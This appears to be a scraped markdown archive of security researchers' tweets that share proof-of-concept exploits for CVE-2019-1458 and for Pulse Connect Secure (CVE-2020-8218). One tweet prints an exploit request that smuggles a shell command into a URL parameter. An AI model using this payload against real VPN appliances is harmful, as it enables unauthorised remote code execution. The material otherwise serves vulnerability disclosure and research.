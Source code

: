 </table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1303242252827987970 _at 2020-09-08 08:02:20_**
<blockquote>
CVE-2019-1458 LPE PoC + full writeup with a very interesting patch diffing approach 👌 https://t.co/QyRvp17zMU
</blockquote>

* https://github.com/piotrflorczyk/cve-2019-1458_POC

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>121</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1301021388455596032 _at 2020-09-02 04:57:25_**
<blockquote>
RCE in Pulse Connect Secure SSL VPN (CVE-2020-8218) 

[Proof Of Concept]
/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/XhlYdrrWqB https://t.co/C4mjbngIq0
</blockquote>

* https://github.com/withdk/pulse-gosecure-rce-poc/blob/master/pulse-gosecure-rce.py

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Eg4n9nRVoAEWnI5.jpg" alt="http://pbs.twimg.com/media/Eg4n9nRVoAEWnI5.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>